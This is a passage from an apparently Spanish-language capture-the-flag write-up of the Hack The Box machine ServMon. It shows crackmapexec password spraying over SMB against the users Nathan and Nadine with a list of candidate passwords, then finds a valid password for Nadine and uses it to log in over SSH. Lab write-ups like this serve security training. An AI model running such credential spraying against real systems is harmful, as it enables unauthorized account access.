 Tenemos unas posibles contraseñas de los usuarios que tenemos y además ya validamos que el usuario **Nathan** existe en el sistema; como vemos el puerto 445 abierto, vamos a probar con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.184 -u 'Nathan' -p Passwords.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE
```

Para el usuario **Nathan** no tenemos resultados, pero podríamos probar para **Nadine**:

```bash
❯ crackmapexec smb 10.10.10.184 -u 'Nadine' -p Passwords.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk
```

Tenemos las credenciales del usuario **Nadine**, por lo que siempre digo, debemos de guardarlas para tenerlas siempre presentes y vamos a probar si podemos conectarnos por ssh:

```bash
❯ ssh nadine@10.10.10.184
nadine@10.10.10.184's password:

Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>
```
